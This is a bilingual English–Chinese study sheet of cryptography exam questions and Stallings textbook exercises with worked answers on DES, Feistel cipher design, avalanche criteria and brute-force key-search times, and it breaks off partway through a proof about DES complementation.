Q3. (DES and brute force, 15 marks) (a) Describe the structure of DES: sizes, phases, one round and the key schedule (6). (b) A cluster of 1,000 nodes tests \(10^9\) keys/s per node. How long does an average DES key search take, and how long for a 128-bit key (6)? (c) What do the results imply for DES and for 128-bit ciphers, and what replaced DES (3)?Q3.（DES 与穷举攻击，15 分）(a) 描述 DES 的结构：尺寸、各阶段、一轮的结构以及密钥编排。（6 分）(b) 一个由 1,000 个节点组成的集群，每个节点每秒测试 \(10^9\) 个密钥。平均一次 DES 密钥搜索需要多长时间？128 位密钥又需要多长时间？（6 分）(c) 这些结果对 DES 以及 128 位密码意味着什么？什么取代了 DES？（3 分）
Answer
(a) DES encrypts 64-bit blocks with a 56-bit key (64 bits with 8 parity bits). Phases: initial permutation IP, 16 rounds, 32-bit swap, inverse permutation \(\mathrm{IP}^{-1}\). Round: \(L_i=R_{i-1}\), \(R_i=L_{i-1}\oplus F(R_{i-1},K_i)\), where \(F\) expands \(R\) from 32 to 48 bits, XORs the 48-bit subkey, applies eight S-boxes (6 bits to 4) and permutes with P. Key schedule: PC-1 drops the parity bits and gives two 28-bit halves; each round rotates both left by 1 or 2 bits (28 in total) and PC-2 selects 48 bits as \(K_i\). Decryption is the same algorithm with \(K_{16},\dots,K_1\).(a) DES 以 56 位密钥加密 64 位分组（密钥输入为 64 位，含 8 个奇偶校验位）。各阶段：初始置换 IP、16 轮、32 位交换、逆置换 \(\mathrm{IP}^{-1}\)。轮结构：\(L_i=R_{i-1}\)、\(R_i=L_{i-1}\oplus F(R_{i-1},K_i)\)，其中 \(F\) 将 \(R\) 由 32 位扩展为 48 位，与 48 位子密钥异或，经过八个 S 盒（6 位到 4 位）后再用 P 置换。密钥编排：PC-1 去掉奇偶校验位并得到两个 28 位的半块；每一轮两个半块各循环左移 1 位或 2 位（共 28 位），PC-2 选出 48 位作为 \(K_i\)。解密即为同一算法，只是使用 \(K_{16},\dots,K_1\)。
(b) Rate \(r=1000\cdot10^9=10^{12}\) keys/s. DES: \(2^{55}/10^{12}\approx3.6\times10^{4}\) s \(\approx10\) hours. 128-bit key: \(2^{127}/10^{12}\approx1.7\times10^{26}\) s \(\approx5.4\times10^{18}\) years.(b) 速率为 \(r=1000\cdot10^9=10^{12}\) 个密钥/秒。DES：\(2^{55}/10^{12}\approx3.6\times10^{4}\) s \(\approx10\) 小时。128 位密钥：\(2^{127}/10^{12}\approx1.7\times10^{26}\) s \(\approx5.4\times10^{18}\) 年。
(c) A 56-bit key falls to modest hardware within hours, so DES is obsolete; the 128-bit key space is \(2^{72}\) times larger and cannot be searched by any foreseeable hardware. Triple DES (168-bit key) and AES replaced DES.(c) 56 位密钥在普通硬件上数小时内即可被攻破，因此 DES 已经过时；128 位密钥空间则大 \(2^{72}\) 倍，任何可预见的硬件都无法对其进行搜索。三重 DES（168 位密钥）与 AES 取代了 DES。
Q4. (Avalanche, 12 marks) (a) Define the avalanche effect and the strict avalanche criterion (4). (b) Inverting one plaintext bit changes only 3 of 64 ciphertext bits. How probable is that for an ideal cipher, and what do you conclude (4)? (c) Explain how DES components produce avalanche (4).Q4.（雪崩效应，12 分）(a) 定义雪崩效应与严格雪崩准则。（4 分）(b) 翻转一个明文比特只改变 64 个密文比特中的 3 个。对于理想密码，这种情况的概率有多大？你能得出什么结论？（4 分）(c) 解释 DES 的各组成部分如何产生雪崩效应。（4 分）
Answer
(a) Avalanche effect: a one-bit change in the plaintext or key changes many ciphertext bits (about half). SAC: each output bit of an S-box (or of \(F\)) changes with probability \(1/2\) when any single input bit is inverted.(a) 雪崩效应：明文或密钥中的一个比特改变，会使许多密文比特（约一半）发生改变。SAC：当任一输入比特被取反时，S 盒（或 \(F\)）的每个输出比特以概率 \(1/2\) 发生改变。
(b) For an ideal cipher the number of differing bits is binomial \(B(64,\tfrac12)\) with mean 32 and standard deviation 4. \(P(\le3)=43\,745/2^{64}\approx2.4\times10^{-15}\). So the cipher lacks avalanche (too few rounds or a weak \(F\)), or the implementation is wrong.(b) 对于理想密码，不同的比特数服从参数为 \(B(64,\tfrac12)\) 的二项分布，均值为 32，标准差为 4。\(P(\le3)=43\,745/2^{64}\approx2.4\times10^{-15}\)。因此，该密码缺乏雪崩效应（轮数太少，或 \(F\) 较弱），或者实现有误。
(c) The expansion E feeds some input bits into two S-boxes. The nonlinear S-boxes turn a one-bit input change into several output bits (3 or 4 in the example). The permutation P sends the outputs of each S-box to different S-boxes of the next round, and the Feistel swap passes the changed half into the other half's computation. After 3–4 rounds about half of the bits differ.(c) 扩展 E 将部分输入比特送入两个 S 盒。非线性的 S 盒把一个比特的输入改变转化为若干个输出比特的改变（示例中为 3 或 4 个）。置换 P 将每个 S 盒的输出送往下一轮的不同 S 盒，而 Feistel 交换则把发生改变的半块传入另一半的计算中。经过 3–4 轮之后，约一半的比特不同。
Q5. (Design analysis, 12 marks) A designer builds a 16-round Feistel cipher with 64-bit blocks and \(F(R,K_i)=R\oplus K_i\). (a) Show that the cipher is affine over GF(2) (5). (b) Show that one known plaintext–ciphertext pair \((P_0,C_0)\) lets an attacker encrypt any plaintext without the key (4). (c) Which design principle is violated (3)?Q5.（设计分析，12 分）一位设计者构造了一个 16 轮 Feistel 密码，其分组为 64 位，且 \(F(R,K_i)=R\oplus K_i\)。(a) 证明该密码在 GF(2) 上是仿射的。（5 分）(b) 证明一个已知明文–密文对 \((P_0,C_0)\) 使攻击者无需密钥即可加密任意明文。（4 分）(c) 违反了哪一条设计原则？（3 分）
Answer
(a) One round maps \((L,R)\) to \((R,\ L\oplus R\oplus K_i)\). Every output bit is an XOR of data bits and key bits, so a round is affine in (data, key). A composition of affine maps, including the final swap, is affine: \(C=M\cdot P\oplus c(K)\), where \(M\) is a fixed binary matrix independent of the key (it is the cipher with all subkeys zero, \(E_0\)) and \(c(K)\) is a constant depending only on the key.(a) 一轮将 \((L,R)\) 映射为 \((R,\ L\oplus R\oplus K_i)\)。每个输出比特都是数据比特与密钥比特的异或，因此一轮关于（数据，密钥）是仿射的。仿射映射的复合（包括最后的交换）仍是仿射的：\(C=M\cdot P\oplus c(K)\)，其中 \(M\) 是与密钥无关的固定二元矩阵（即所有子密钥均为零时的密码，\(E_0\)），而 \(c(K)\) 是仅依赖于密钥的常数。
(b) From \(C_0=E_0(P_0)\oplus c(K)\) the attacker obtains \(c(K)=C_0\oplus E_0(P_0)\), computing \(E_0\) from the public structure. For any \(P\): \(C=E_0(P)\oplus c(K)=C_0\oplus E_0(P\oplus P_0)\). The key is never needed.(b) 攻击者由 \(C_0=E_0(P_0)\oplus c(K)\) 获得 \(c(K)=C_0\oplus E_0(P_0)\)，并根据公开的结构计算 \(E_0\)。对于任意 \(P\)：\(C=E_0(P)\oplus c(K)=C_0\oplus E_0(P\oplus P_0)\)。该过程从不需要密钥。
(c) Confusion: \(F\) must be strongly nonlinear (for example S-boxes with SAC and BIC), so that no such key-independent linear relation exists.(c) 混淆：\(F\) 必须具有很强的非线性（例如满足 SAC 和 BIC 的 S 盒），从而不存在此类与密钥无关的线性关系。
思路：线性/仿射 ⇒ 一个已知明密文对就够了。
Textbook exercises课后习题
Textbook exercises with answers: 12 questions教材习题及答案，共 12 题，点击展开
E1. (Review Question 4.1, Stallings) Briefly define a nonsingular transformation.E1.（复习题 4.1，Stallings）简要定义非奇异变换。
Answer
A nonsingular (reversible) transformation maps each plaintext block to a distinct ciphertext block: it is one-to-one, so no two plaintexts give the same ciphertext. An \(n\)-bit block cipher with a fixed key must be nonsingular, because otherwise decryption would be ambiguous. Such a transformation is a permutation of the \(2^n\) possible blocks, and the key selects which one. A singular (irreversible) mapping sends two plaintexts to the same ciphertext and cannot be decrypted.非奇异（可逆）变换把每个明文分组映射到一个不同的密文分组：它是一一对应的，因此没有两个明文会得到同一个密文。固定密钥的 \(n\) 位分组密码必须是非奇异的，否则解密就会有歧义。这样的变换是 \(2^n\) 个可能分组上的一个置换，而密钥决定具体选取哪一个。奇异（不可逆）映射会把两个明文映射到同一个密文，因此无法解密。
思路：非奇异 = 一一映射（可逆），否则无法唯一解密。
E2. (Review Question 4.2, Stallings; 20.4, Stallings & Brown) What is the difference between a block cipher and a stream cipher?E2.（复习题 4.2，Stallings；20.4，Stallings & Brown）分组密码与流密码有什么区别？
Answer
A block cipher processes the plaintext in fixed-size blocks (64 bits for DES, 128 bits for AES) and produces a ciphertext block of the same size for each plaintext block, using the same key for every block. A stream cipher processes the input one element (a bit or a byte) at a time and produces output continuously: a pseudorandom keystream generated from the key is combined, normally by XOR, with the plaintext. Block ciphers are used through modes of operation (ECB, CBC, CTR, ...), and they can emulate a stream cipher in modes such as CFB, OFB and CTR. A stream cipher must never reuse the same keystream for two messages.分组密码把明文按固定大小的分组处理（DES 为 64 位，AES 为 128 位），对每个明文分组产生同样大小的密文分组，并且所有分组使用同一个密钥。流密码则逐个元素（一位或一个字节）地处理输入，并连续地产生输出：由密钥生成的伪随机密钥流，通常用 XOR 与明文组合。分组密码通过工作模式（ECB、CBC、CTR 等）使用，并且在 CFB、OFB 和 CTR 等模式下可以模拟流密码。流密码绝不能对两条消息重复使用同一个密钥流。
思路：分组密码按固定块加密、同一密钥；流密码逐位/逐字节与密钥流异或。
E3. (Review Question 4.3, Stallings) Why is it not practical to use an arbitrary reversible substitution cipher, in which the key is a table giving the ciphertext block for every possible plaintext block?E3.（复习题 4.3，Stallings）为什么使用任意可逆代换密码不实际？其中密钥是一张表，给出每个可能明文分组对应的密文分组。
Answer
An arbitrary reversible substitution on \(n\)-bit blocks is a permutation of the \(2^n\) possible blocks. The key is the whole table that lists the ciphertext for each plaintext block. It has \(2^n\) entries of \(n\) bits, so the key length is \(n \cdot 2^n\) bits. For a small block (\(n = 4\)) this is only \(64\) bits, but for a block of \(n = 64\) bits (needed to resist statistical attacks) it is \(64 \cdot 2^{64} \approx 2^{70}\) bits. Such a key cannot be generated, stored or exchanged. Practical block ciphers therefore use a short key (for example 56 or 128 bits) to generate a pseudorandom-looking permutation through rounds of substitutions and permutations.对 \(n\) 位分组的任意可逆代换，就是对 \(2^n\) 个可能分组的一个置换。密钥就是列出每个明文分组对应密文的整张表。它有 \(2^n\) 项，每项 \(n\) 位，所以密钥长度为 \(n \cdot 2^n\) 位。对于小分组（\(n = 4\)），这只有 \(64\) 位；但对于抵抗统计攻击所需的 \(n = 64\) 位分组，它为 \(64 \cdot 2^{64} \approx 2^{70}\) 位。这样的密钥既无法生成、存储，也无法交换。因此，实用的分组密码使用一个短密钥（例如 56 位或 128 位），通过多轮代换和置换生成看起来随机的置换。
思路：理想分组密码的密钥就是整张表，长度 \(n\cdot 2^n\) 位，n=64 时不可行。
E4. (Review Question 4.4, Stallings) Briefly define the terms substitution and permutation.E4.（复习题 4.4，Stallings）简要定义代换和置换这两个术语。
Answer
Substitution: each plaintext element (a bit, or a group of bits) is replaced by another ciphertext element, according to a rule or table; this creates confusion. Permutation: the elements of the plaintext are rearranged, so a sequence is replaced by a permutation of the same elements; no element is added, removed or changed, only its position. Shannon proposed alternating the two in a product cipher, which gives confusion (substitution hides the key-ciphertext relation) and diffusion (permutation spreads the influence of one input bit over many output bits).代换：每个明文元素（一位或一组位）按照某种规则或表被替换为另一个密文元素，这会产生混淆。置换：明文元素被重新排列，也就是把一个序列换成同一些元素的一个排列；没有元素被增加、删除或改变，只是位置发生变化。香农提出在乘积密码中交替使用这两者：代换产生混淆（隐藏密钥与密文之间的关系），置换产生扩散（把一个输入位的影响分散到许多输出位上）。
思路：替换改变元素的值，置换只改变位置；两者交替构成乘积密码。
E5. (Review Question 4.5, Stallings) What is the strict avalanche criterion for the Feistel \(F\) function?E5.（复习题 4.5，Stallings）Feistel 的 \(F\) 函数的严格雪崩准则是什么？
Answer
The strict avalanche criterion (SAC) states that any output bit \(j\) should change with probability \(1/2\) when any single input bit \(i\) is inverted, for all \(i\) and \(j\). It was stated for S-boxes but applies to \(F\) as a whole, which matters for designs without S-boxes. SAC is a strengthened form of the avalanche effect (one input bit change should alter many output bits): each output bit must behave like a fair coin flip with respect to every input bit. It makes \(F\) resist cryptanalysis because no output bit is predictably correlated with a particular input bit. The related bit independence criterion requires that output bits \(j\) and \(k\) change independently when any input bit \(i\) is inverted.严格雪崩准则（SAC）指：对于所有 \(i\) 和 \(j\)，当任一输入位 \(i\) 被取反时，任一输出位 \(j\) 都应以概率 \(1/2\) 发生改变。它最初是针对 S 盒提出的，但也适用于整个 \(F\)，这对于没有 S 盒的设计很重要。SAC 是雪崩效应的加强形式（一个输入位的改变应当改变许多输出位）：对于每一个输入位，每一个输出位都必须表现得像一次公平的掷硬币。这使 \(F\) 能够抵抗密码分析，因为任何输出位都不会与某个特定输入位有可预测的相关性。相关的位独立准则要求：当任一输入位 \(i\) 被取反时，输出位 \(j\) 与 \(k\) 独立地变化。
思路：翻转任一输入位，每个输出位以 1/2 概率翻转。
E6. (Review Question 4.6, Stallings) Which parameters and design choices determine the actual algorithm of a Feistel cipher?E6.（复习题 4.6，Stallings）哪些参数和设计选择决定了 Feistel 密码的具体算法？
Answer
A Feistel network has a fixed structure (split into halves, then rounds of \(L_i = R_{i-1}\), \(R_i = L_{i-1} \oplus F(R_{i-1}, K_i)\)), and the following choices define the actual cipher:Feistel 网络有固定的结构（分成两半，然后进行若干轮 \(L_i = R_{i-1}\)、\(R_i = L_{i-1} \oplus F(R_{i-1}, K_i)\)），而下列选择决定了具体的密码：
- Block size: a larger block gives more security (and more diffusion) but slows the cipher (64 bits is common, 128 bits now preferred).分组长度：分组越大，安全性（以及扩散）越好，但密码变慢（64 位较常见，现在更倾向于 128 位）。
- Key size: a larger key resists brute force better (56 bits is too small; 128 bits or more is used).密钥长度：密钥越长，越能抵抗穷举（56 位太短；现在使用 128 位或更长）。
- Number of rounds: several rounds are needed for diffusion (16 in DES).轮数：要实现扩散需要若干轮（DES 为 16 轮）。
- Subkey generation algorithm: it derives the round keys from the key and should make deducing the key from subkeys hard.子密钥生成算法：它从密钥导出各轮密钥，并且应使由子密钥反推出密钥变得困难。
- Round function \(F\): its complexity and nonlinearity create confusion.轮函数 \(F\)：其复杂性和非线性产生混淆。
思路：块长、密钥长、轮数、子密钥算法、轮函数 F 五项。
E7. (Review Question 4.7, Stallings) What are the critical aspects of Feistel cipher design?E7.（复习题 4.7，Stallings）Feistel 密码设计的关键方面有哪些？
Answer
Security depends on the five parameters of the structure: block size, key size, number of rounds, subkey generation algorithm and round function \(F\). Larger blocks, longer keys and more rounds increase security; \(F\) must be nonlinear, satisfy the avalanche criteria (SAC, BIC), and the subkey schedule must make it hard to recover the key. Two further aspects concern implementation and evaluation:安全性取决于结构的五个参数：分组长度、密钥长度、轮数、子密钥生成算法以及轮函数 \(F\)。分组越大、密钥越长、轮数越多，安全性越高；\(F\) 必须是非线性的，满足雪崩准则（SAC、BIC），并且子密钥编排必须使恢复密钥变得困难。另外两个方面涉及实现和评估：
- Fast software encryption and decryption: many ciphers are embedded in applications, so speed in software matters.软件中快速的加解密：许多密码被嵌入应用程序中，因此软件中的速度很重要。
- Ease of analysis: a cipher whose algorithm can be explained clearly is easier to analyse for weaknesses, which gives higher confidence in its strength (DES is not easy to analyse in this sense).易于分析：算法能被清楚解释的密码，更容易分析其弱点，从而对其强度更有信心（就这一点而言，DES 不易分析）。
思路：安全参数（块、密钥、轮数、子密钥、F）加上软件速度和易分析性。
E8. (Problem 4.2, Stallings; 20.2, Stallings & Brown) Consider a Feistel cipher composed of sixteen rounds with a block length of 128 bits and a key length of 128 bits. For a given key \(k\), the key schedule determines the first eight round keys \(k_1, \dots, k_8\) and then sets \(k_9 = k_8\), \(k_{10} = k_7\), \(k_{11} = k_6\), \(\dots\), \(k_{16} = k_1\). You have a ciphertext \(c\) and access to an encryption oracle. Explain how you can decrypt \(c\) and determine \(m\) with a single oracle query.E8.（习题 4.2，Stallings；20.2，Stallings & Brown）考虑一个 16 轮的 Feistel 密码，分组长度为 128 位，密钥长度为 128 位。对于给定的密钥 \(k\)，密钥编排先确定前八个轮密钥 \(k_1, \dots, k_8\)，然后设定 \(k_9 = k_8\)、\(k_{10} = k_7\)、\(k_{11} = k_6\)、\(\dots\)、\(k_{16} = k_1\)。你有一个密文 \(c\)，并且可以访问一个加密预言机。请说明如何解密 \(c\)，并用一次预言机查询确定 \(m\)。
Answer
Feistel decryption is the encryption algorithm run with the round keys in reverse order, \(k_{16}, k_{15}, \dots, k_1\). For this cipher the encryption key sequence is \((k_1, \dots, k_8, k_8, \dots, k_1)\), and its reversal is \((k_1, \dots, k_8, k_8, \dots, k_1)\), the same sequence. Therefore decrypting with \(k\) is identical to encrypting with \(k\): \(E_k(E_k(m)) = m\), so \(E_k\) is its own inverse (an involution).Feistel 解密就是把轮密钥逆序使用时的加密算法，\(k_{16}, k_{15}, \dots, k_1\)。对于这个密码，加密的密钥序列为 \((k_1, \dots, k_8, k_8, \dots, k_1)\)，其逆序为 \((k_1, \dots, k_8, k_8, \dots, k_1)\)，与原序列相同。因此，用 \(k\) 解密与用 \(k\) 加密完全相同：\(E_k(E_k(m)) = m\)，所以 \(E_k\) 是它自己的逆（即对合）。
Attack: submit the ciphertext \(c\) itself as the chosen plaintext to the oracle. The oracle returns \(E_k(c) = E_k(E_k(m)) = m\), which is the plaintext, with one query and without knowing \(k\).攻击方法：把密文 \(c\) 本身作为选择明文提交给预言机。预言机返回 \(E_k(c) = E_k(E_k(m)) = m\)，即明文，只需一次查询，且无需知道 \(k\)。
Result: the symmetric key schedule makes encryption equal to decryption, so the cipher falls to a one-query chosen-plaintext attack; round keys must not be mirror-symmetric.结论：对称的密钥编排使加密等同于解密，因此该密码会被一次查询的选择明文攻击攻破；轮密钥不能是镜像对称的。
思路：镜像子密钥使加密等于解密，把密文送进加密预言机即得明文。
E9. (Problem 4.6, Stallings) Suppose the DES \(F\) function mapped every 32-bit input \(R\), regardless of the value of the round key \(K\), to (a) a 32-bit string of zeros, or (b) \(R\) itself. For each case: what function would DES compute, and what would decryption look like?E9.（习题 4.6，Stallings）假设 DES 的 \(F\) 函数无论轮密钥 \(K\) 取何值，都把每个 32 位输入 \(R\) 映射为 (a) 一个 32 位的零串，或 (b) \(R\) 本身。对每种情况，DES 会计算什么函数？解密会是什么样子？
Answer
DES computes \(IP\), then 16 rounds \((L_i, R_i) = (R_{i-1}, L_{i-1} \oplus F(R_{i-1}, K_i))\), then a swap of the halves and \(IP^{-1}\). Use \(A \oplus 0 = A\) and \(A \oplus A = 0\).DES 先计算 \(IP\)，然后进行 16 轮 \((L_i, R_i) = (R_{i-1}, L_{i-1} \oplus F(R_{i-1}, K_i))\)，再交换两半并计算 \(IP^{-1}\)。用 \(A \oplus 0 = A\) 和 \(A \oplus A = 0\) 表示。
(a) \(F = 0\). Each round becomes \((L_i, R_i) = (R_{i-1}, L_{i-1})\), a pure swap. Sixteen swaps give the identity, so after the rounds \((L_{16}, R_{16}) = (L_0, R_0)\), and the final swap gives \((R_0, L_0)\). Thus \(C = IP^{-1}(\text{swap}(IP(P)))\): a fixed permutation of the bits, independent of the key. Decryption is the same computation: \(IP(C)\) is the swapped halves, 16 swaps and the final swap restore \((L_0, R_0)\), so decryption equals encryption.(a) \(F = 0\)。每一轮都变成 \((L_i, R_i) = (R_{i-1}, L_{i-1})\)，即纯粹的交换。十六次交换等于恒等变换，所以经过各轮后得到 \((L_{16}, R_{16}) = (L_0, R_0)\)，最后一次交换得到 \((R_0, L_0)\)。因此 \(C = IP^{-1}(\text{swap}(IP(P)))\)：这是位的一个固定置换，与密钥无关。解密是同样的计算：\(IP(C)\) 是交换后的两半，16 次交换加上最后一次交换会还原 \((L_0, R_0)\)，所以解密与加密相同。
(b) \(F = R\). Each round becomes \((L_i, R_i) = (R_{i-1}, L_{i-1} \oplus R_{i-1})\). Three rounds give \((L, R) \to (R, L \oplus R) \to (L \oplus R, L) \to (L, R)\), so three rounds are the identity. Since \(16 = 5 \cdot 3 + 1\), sixteen rounds equal one round: \((L_{16}, R_{16}) = (R_0, L_0 \oplus R_0)\). After the final swap the output is \((L_0 \oplus R_0, R_0)\), so \(C = IP^{-1}(L_0 \oplus R_0 \,\|\, R_0)\), again independent of the key. Decryption runs the same 16 rounds on \((A, B) = (L_0 \oplus R_0, R_0)\), giving \((B, A \oplus B) = (R_0, L_0)\); the final swap gives \((L_0, R_0)\) and \(IP^{-1}\) returns \(P\). Decryption again works with the unchanged algorithm.(b) \(F = R\)。每一轮都变成 \((L_i, R_i) = (R_{i-1}, L_{i-1} \oplus R_{i-1})\)。三轮得到 \((L, R) \to (R, L \oplus R) \to (L \oplus R, L) \to (L, R)\)，所以三轮就是恒等变换。由于 \(16 = 5 \cdot 3 + 1\)，十六轮等于一轮：\((L_{16}, R_{16}) = (R_0, L_0 \oplus R_0)\)。经过最后一次交换后，输出为 \((L_0 \oplus R_0, R_0)\)，因此 \(C = IP^{-1}(L_0 \oplus R_0 \,\|\, R_0)\)，同样与密钥无关。解密在 \((A, B) = (L_0 \oplus R_0, R_0)\) 上运行同样的 16 轮，得到 \((B, A \oplus B) = (R_0, L_0)\)；最后一次交换得到 \((L_0, R_0)\)，而 \(IP^{-1}\) 会还原 \(P\)。解密同样在算法不变的情况下工作。
Result: both ciphers ignore the key and are trivially breakable. The Feistel structure is still invertible whatever \(F\) is.结论：两种情况下的密码都忽略密钥，很容易被破解。无论 \(F\) 是什么，Feistel 结构仍然是可逆的。
思路：(a) 每轮只是交换，16 轮后恒等；(b) 三轮为恒等，16 轮等价于一轮。
E10. (Problem 4.11, Stallings) A one-round version of DES: both the key \(K\) and the plaintext are \(0123456789ABCDEF\) (hexadecimal). (a) Derive \(K_1\). (b) Derive \(L_0, R_0\). (c) Expand \(R_0\) with the expansion function \(E\). (d) Calculate \(A = E[R_0] \oplus K_1\). (e) Group \(A\) into 6-bit sets and evaluate the S-boxes. (f) Concatenate the results to get the 32-bit \(B\). (g) Apply the permutation \(P\). (h) Calculate \(R_1 = P(B) \oplus L_0\). (i) Write down the ciphertext.E10.（习题 4.11，Stallings）DES 的单轮版本：密钥 \(K\) 和明文都为 \(0123456789ABCDEF\)（十六进制）。(a) 求出 \(K_1\)。(b) 求出 \(L_0, R_0\)。(c) 用扩展函数 \(E\) 扩展 \(R_0\)。(d) 计算 \(A = E[R_0] \oplus K_1\)。(e) 把 \(A\) 分成若干 6 位的组，并计算 S 盒。(f) 把结果拼接起来，得到 32 位的 \(B\)。(g) 应用置换 \(P\)。(h) 计算 \(R_1 = P(B) \oplus L_0\)。(i) 写出密文。
Answer
Method: follow one DES round (initial permutation \(IP\), key schedule, \(F\), XOR), using the standard DES tables.方法：按照一轮 DES 的步骤进行，使用标准的 DES 表（初始置换 \(IP\)、密钥编排、\(F\)、XOR）。
(a) \(PC1\) selects 56 key bits and splits them into \(C_0, D_0\); both are rotated left by one position and \(PC2\) selects 48 bits: \(K_1 = 0B02679B49A5\) (hex).(a) \(PC1\) 选出 56 个密钥位，并把它们分成 \(C_0, D_0\)；两半都左循环移动一位，然后 \(PC2\) 选出 48 位：\(K_1 = 0B02679B49A5\)（十六进制）。
(b) \(IP(\text{plaintext})\): \(L_0 = CC00CCFF\), \(R_0 = F0AAF0AA\).
(c) \(E[R_0] = 7A15557A1555\).
(d) \(A = E[R_0] \oplus K_1 = 711732E15CF0\).
(e) The 6-bit groups of \(A\) are \(011100, 010001, 011100, 110010, 111000, 010101, 110011, 110000\). In each S-box the outer two bits select the row and the middle four the column. The outputs are \(0, 12, 2, 1, 6, 13, 5, 0\) (hex \(0, C, 2, 1, 6, D, 5, 0\)).(e) \(A\) 的 6 位分组为 \(011100, 010001, 011100, 110010, 111000, 010101, 110011, 110000\)。在每个 S 盒中，外层两位选择行，中间四位选择列。输出为 \(0, 12, 2, 1, 6, 13, 5, 0\)（十六进制 \(0, C, 2, 1, 6, D, 5, 0\)）。
(f) \(B = 0C216D50\).
(g) \(P(B) = 921C209C\).
(h) \(R_1 = P(B) \oplus L_0 = 921C209C \oplus CC00CCFF = 5E1CEC63\). Also \(L_1 = R_0 = F0AAF0AA\).(h) \(R_1 = P(B) \oplus L_0 = 921C209C \oplus CC00CCFF = 5E1CEC63\)。同时 \(L_1 = R_0 = F0AAF0AA\)。
(i) The one-round pre-output is \(R_1 \,\|\, L_1 = 5E1CEC63F0AAF0AA\) (halves swapped); after \(IP^{-1}\) the ciphertext is \(01635476D8AFCDAE\).(i) 单轮的预输出为 \(R_1 \,\|\, L_1 = 5E1CEC63F0AAF0AA\)（两半交换后）；经过 \(IP^{-1}\) 之后，密文为 \(01635476D8AFCDAE\)。
Result: this is the round structure of DES in numbers; the S-boxes are the only nonlinear step.结论：这就是用数字表示的 DES 轮结构；S 盒是唯一的非线性步骤。
思路：按轮结构逐步算：子密钥、扩展、异或、S 盒、P 置换、与 \(L_0\) 异或。
E11. (Problem 4.13, Stallings) Suppose that a modern multi-core computer can process \(10^9\) key combinations per second. How long does it take to search the key space of an algorithm with a 56-bit key? If the key size is increased to 60 bits and the CPU speed is also doubled, how long does the search take on the new computer?E11.（习题 4.13，Stallings）假设一台现代多核计算机每秒可以处理 \(10^9\) 个密钥组合。搜索一个 56 位密钥算法的密钥空间需要多久？如果密钥长度增加到 60 位，同时 CPU 速度也翻倍，那么在新计算机上搜索需要多久？
Answer
The key space has \(2^{56}\) keys, and an exhaustive search tests all of them in the worst case.密钥空间有 \(2^{56}\) 个密钥，穷举搜索在最坏情况下要测试其中的全部。
56-bit key: \(2^{56} \approx 7.21 \times 10^{16}\) keys. At \(10^9\) keys per second the time is \(7.21 \times 10^{7}\) s, about \(834\) days or \(2.3\) years.56 位密钥：\(2^{56} \approx 7.21 \times 10^{16}\) 个密钥。以每秒 \(10^9\) 个密钥计，所需时间为 \(7.21 \times 10^{7}\) 秒，约 \(834\) 天，或 \(2.3\) 年。
60-bit key on a machine twice as fast (\(2 \times 10^9\) keys per second): \(2^{60} \approx 1.15 \times 10^{18}\) keys, so the time is \(5.76 \times 10^{8}\) s, about \(18.3\) years.60 位密钥，在快一倍的机器上（每秒 \(2 \times 10^9\) 个密钥）：\(2^{60} \approx 1.15 \times 10^{18}\) 个密钥，所以所需时间为 \(5.76 \times 10^{8}\) 秒，约 \(18.3\) 年。
The ratio is \(2^4 / 2 = 8\): four more key bits multiply the work by \(16\), and doubling the speed only halves it, so the search takes \(8\) times longer. (On average a key is found after half of the space, which halves both times.)比值为 \(2^4 / 2 = 8\)：多 4 个密钥位使工作量乘以 \(16\)，而速度翻倍只能使其减半，所以搜索时间变为 \(8\) 倍。（平均来说，找到密钥需要搜索空间的一半，这会使两个时间都减半。）
Result: about \(2.3\) years for the 56-bit key and about \(18.3\) years for the 60-bit key. Each extra key bit doubles the work, which is why short keys such as DES's 56 bits are insecure.结论：56 位密钥约需 \(2.3\) 年，60 位密钥约需 \(18.3\) 年。每多一个密钥位，工作量就翻一倍，这就是像 DES 的 56 位这样的短密钥不安全的原因。
思路：时间 = 密钥数 / 速率；每增加 1 位密钥，工作量翻倍。
E12. (Problem 4.14, Stallings) (a) Let \(X'\) be the bitwise complement of \(X\). Prove that if \(Y = E(K, X)\) for DES, then \(Y' = E(K', X')\). Hint: begin by showing that \((A \oplus B)' = A' \oplus B\). (b) A brute-force attack on DES is said to require searching \(2^{56}\) keys. Does the result of (a) change that?E12.（习题 4.14，Stallings）(a) 设 \(X'\) 是 \(X\) 的按位取反。证明：若对 DES 有 \(Y = E(K, X)\)，则 \(Y' = E(K', X')\)。提示：先证明 \((A \oplus B)' = A' \oplus B\)。(b) 据说对 DES 的穷举攻击需要搜索 \(2^{56}\) 个密钥。(a) 的结果会改变这一点吗？
Answer
(a) Preliminaries. Complementing a bit string is XOR with the all-ones string \(1\). So \((A \oplus B)' = A \oplus B \oplus 1 = A' \oplus B = A \oplus B'\), and \(A' \oplus B' = A \oplus B\) (the two complements cancel).(a) 预备知识。对位串取反就是与全 1 串 \(1\) 做 XOR。所以 \((A \oplus B)' = A \oplus B \oplus 1 = A' \oplus B = A \oplus B'\)，并且 \(A' \oplus B' = A \oplus B\)（两次取反相互抵消）。
Step 1: \(IP\), \(IP^{-1}\), \(E\), \(P\) and the key-schedule steps (\(PC1\), left shifts, \(PC2\)) only rearrange or copy bit positions, so they commute with complementation. Hence the round keys of \(K'\) are \(K_i'\), the complements of the round keys of \(K\), and \(IP(X') = (L_0', R_0')\).第 1 步：\(IP\)、\(IP^{-1}\)、\(E\)、\(P\) 以及密钥编排中的各步（\(PC1\)、左移、\(PC2\)）都只是重排或复制位的位置，因此它们与取反可交换。于是 \(K'\) 的轮密钥就是 \(K_i'\)，即 \(K\) 的轮密钥的取反，并且 \(IP(X') = (L_0', R_0')\)。
Step 2: in a round, the S-box input is \(E(R_{i-1}') \oplus K_i' = E(R_{i-1})' \oplus K_i' = E(R_{i-1}) \oplus K_i\), the same as for \((X, K)\). So the S-box outputs, and \(F\), are identical: \(F(R_{i-1}', K_i') = F(R_{i-1}, K_i)\).第 2 步：在一轮中，S 盒的输入为 \(E(R_{i-1}') \oplus K_i' = E(R_{i-1})' \oplus K_i' = E(R_{i-1}) \oplus K_i\)，与 \((X, K)\) 的输入相同。因此 S 盒的输出以及 \(F\) 都相同：\(F(R_{i-1}', K_i') = F(R_{i-1}, K_i)\)。
